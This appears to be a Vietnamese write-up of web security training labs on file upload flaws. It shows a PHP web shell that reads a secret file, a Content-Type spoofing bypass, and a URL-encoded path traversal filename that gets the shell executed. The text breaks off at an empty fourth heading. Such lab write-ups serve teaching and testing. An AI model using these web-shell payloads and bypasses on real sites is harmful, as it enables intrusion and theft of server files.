 # 1. Remote code execution via web shell upload
Ta thấy chức năng upload avatar cho phép ta upload bất kì loại file nào. Như vậy ta thử upload file payload.php với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Sau khi upload file, ta truy cập `/files/avatars/payload.php` thì thấy nội dung file /home/carlos/secret đã được hiển thị:

![image](https://user-images.githubusercontent.com/103978452/202854734-8fa1c18b-4117-4a3c-b75e-547b67b16588.png)

# 2. Web shell upload via Content-Type restriction bypass
Khi upload file có đuôi .php thì website trả về lỗi, thông báo rằng chỉ cho phép uplaod file với MIME type image/jpeg hoặc image/png.

Ta thử upload file payload.php với nội dung:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
rồi thay đổi Content-Type từ `application/x-php` thành `image/jpeg` rồi submit (sử dụng Burp Repeater)

Kết quả thành công. Ta truy cập `/files/avatars/payload.php` thì thấy nội dung file /home/carlos/secret được hiển thị

![image](https://user-images.githubusercontent.com/103978452/202857559-21ced5bd-38e0-47f0-a627-0b64162b40f7.png)

# 3. Web shell upload via path traversal
Ta thử upload file payload.php với nội dung
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
rồi truy cập `/files/avatars/payload.php` thì thấy nội dung file được hiển thị thay vì được execute. Ta sẽ thử upload file payload.php vào các folder khác sử dụng kĩ thuật directory traversal.

Trong tab Repeater của BurpSuite, ta thấy POST request đến `/my-account/avatar` có nội dung như sau:

![image](https://user-images.githubusercontent.com/103978452/202960724-6834b606-d122-43ba-8f10-b716b5a1f5f9.png)

Thay đổi `filename="../payload.php"`, kết quả trả về `The file avatars/payload.php has been uploaded`. Thử với các relative path, absolute path khác cũng có kết quả tương tự. Như vậy có thể server lọc ra filename trước rồi mới upload.

Thử dùng URL encode, thay `filename="%2E%2E%2F%70%61%79%6C%6F%61%64%2E%70%68%70"` (tương ứng `payload="../payload.php sau khi decode) thì thấy kết quả trả về thành công

![image](https://user-images.githubusercontent.com/103978452/202961066-81908b20-efee-4af1-8076-2c0754a00c5b.png)

Truy cập `/files/payload.php`, ta thấy đoạn code được execute và trả về nội dung file /home/carlos/secret

![image](https://user-images.githubusercontent.com/103978452/202961174-fed4b7c5-a005-4096-b909-b56917ff110d.png)

# 4.
